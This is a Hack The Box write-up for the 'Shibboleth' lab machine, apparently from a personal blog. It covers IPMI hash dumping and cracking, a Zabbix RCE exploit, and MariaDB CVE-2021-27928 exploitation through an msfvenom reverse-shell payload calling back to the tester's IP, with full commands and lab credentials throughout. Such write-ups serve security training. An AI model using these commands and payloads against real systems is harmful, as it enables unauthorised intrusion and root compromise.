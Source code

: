 ```yaml
---
layout: single
title: Shibolleth - Hack The Box
date: 2022-04-25
excerpt: "Shibboleth is a medium difficulty Linux machine featuring IPMI and Zabbix software. IPMI authentication is
found to be vulnerable to remote password hash retrieval. The hash can be cracked and Zabbix access can
be obtained using these credentials. Foothold can be gained by abusing the Zabbix agent in order to run
system commands. The initial password can be re-used to login as the ipmi-svc and acquire the user flag.
A MySQL service is identified and found to be vulnerable to OS command execution. After successfully
exploiting this service a root shell is gained."
header:
  teaser: /assets/img/shibolleth/cover.png
  teaser_home_page: true
  icon: /assets/htb.png
categories:
  - hackthebox
  - infosec
tag:
    - UDP
    - IPMI
    - Zabbix
    - MariaDB
    - RCE
    - CVE-2021-27928
---
```


![](/assets/img/shibolleth/cover.png)

## Synopsis

Shibboleth is a medium difficulty Linux machine featuring IPMI and Zabbix software. IPMI authentication is
found to be vulnerable to remote password hash retrieval. The hash can be cracked and Zabbix access can
be obtained using these credentials. Foothold can be gained by abusing the Zabbix agent in order to run
system commands. The initial password can be re-used to login as the ipmi-svc and acquire the user flag.
A MySQL service is identified and found to be vulnerable to OS command execution. After successfully
exploiting this service a root shell is gained.

## Portscan

```bash
PORT   STATE SERVICE
80/tcp open  http
|_http-title: Did not follow redirect to http://shibboleth.htb/
```

## Reconaissance

### HTTP

added new shibboleth.htb into hosts file, because only port 80 is open.

![](/assets/img/shibolleth/1.png)

then i use feroxbuster to scan directory

feroxbuster result:

```bash
 🎯  Target Url            │ http://shibboleth.htb/
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405, 500]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.7.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
200      GET     1323l     4114w    59474c http://shibboleth.htb/
301      GET        9l       28w      317c http://shibboleth.htb/assets => http://shibboleth.htb/assets/
301      GET        9l       28w      316c http://shibboleth.htb/forms => http://shibboleth.htb/forms/
403      GET        9l       28w      279c http://shibboleth.htb/server-status
```

inside /get we only see two files

![](/assets/img/shibolleth/2.png)

README.txt

```
Fully working PHP/AJAX contact form script is available in the pro version of the template.
You can buy it from: https://bootstrapmade.com/flexstart-bootstrap-startup-template/
```

contact.php

```
Unable to load the "PHP Email Form" Library!
```

it seems that these two files are the defaults of the template, continuing the process for fuzzing sub domain with `ffuf`

```bash
ffuf -c -u http://shibolleth.htb -w /usr/share/seclists/Discover/DNS/subdomains-top1million-5000.txt -H "Host: FUZZ.shibolleth.htb" -fw 18
```

![](/assets/img/shibolleth/3.png)

added new sub domains into hosts file again, accessing this page [zabbix](http://zabbix.shibboleth.htb/) will find login page

![](/assets/img/shibolleth/4.png)

find a lot of exploit too using `searchsploit`

![](/assets/img/shibolleth/5.png)

basically what is zabbix, in short zabbix is open source monitoring software tool, including networks, servers, VM, and cloud services. Zabbix also provides monitoring metrics such as network utilization, CPU load and disk space consumpution.

already tried admin:admin on login page without any luck, because to carry out the exploitation requires credentials. Back to the initial stage of scanning on UDP using nmap.

```
nmap -sU $ip
```

result of nmap 

```bash
PORT    STATE SERVICE
623/udp open  asf-rmcp
```

according on [hacktricks](https://book.hacktricks.xyz/network-services-pentesting/623-udp-ipmi#vulnerability-ipmi-2.0-rakp-authentication-remote-password-hash-retrieval) we able to dump hash from rmcp using metasploit.

in metasploit we should use the ipmi module with following setup:

```
use scanner/ipmi/ipmi_dumphashes
set output_hashcat_file yes
set rhost ip-shibolleth
```

execute command `run` will obtain hashes for administrator user

![](/assets/img/shibolleth/8.png)

that hash use algorithm SHA1 then run `hashcat` with modul 7300

```
hashcat -a 0 -m 7300 hash /usr/share/wordlists/rockyou.txt
```

![](/assets/img/shibolleth/9.png)

```
Administrator:ilovepumkinpie1
```

back to zabbix and use this credentials

![](/assets/img/shibolleth/10.png)

as you can see we able to logged in, now this zabbix version is 5.0 with affected of RCE vulnerability.
you can grab public exploit in [here](https://www.exploit-db.com/exploits/50816)

execute this command below will gain acess into system

```python
python 50816.py http://monitoring.shibboleth.htb/ Administrator ilovepumkinpie1 10.10.14.8 9000
```

![](/assets/img/shibolleth/11.png)

## Privilege Escalation

password reuse for user ipmi-svc, and on enumeration i managed to find the configuration file

![](/assets/img/shibolleth/12.png)

read the configuration file and find the credentials for Maria Database

```bash
### Option: DBHost
# DBHost=localhost
### Option: DBName
# DBName=

DBName=zabbix
### Option: DBSchema
# DBSchema=
### Option: DBUser
# DBUser=
DBUser=zabbix

### Option: DBPassword
DBPassword=bloooarskybluh

### Option: DBSocket
# DBSocket=
### Option: DBPort
```

mysql service running locally on port 3306 by default, lets dump it

![](/assets/img/shibolleth/13.png)

get the information from table users

![](/assets/img/shibolleth/14.png)

thats hash didnt show me the way, so the thing is we had to exploit the mysql version

![](/assets/img/shibolleth/15.png)

this MariaDB version affected of CVE-2021-27928, you can read the poc in [here](https://github.com/Al1ex/CVE-2021-27928).

create the payload using `msfvenom` and upload into target in /tmp folder

```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=tun0 LPORT=9002 -f elf-so -o CVE-2021-27928.so
```

makesure listener ready and execute command below will lead you into root system

```
mysql -u zabbix -pbloooarskybluh -e 'SET GLOBAL wsrep_provider="/tmp/CVE-2021-27928.so"';
```

![](/assets/img/shibolleth/16.png)

### REFERENCESS
```text
https://book.hacktricks.xyz/network-services-pentesting/623-udp-ipmi
http://g2pc1.bu.edu/~qzpeng/manual/MySQL%20Commands.htm
https://netsec.ws/?p=337
https://hashcat.net/wiki/doku.php?id=example_hashes
```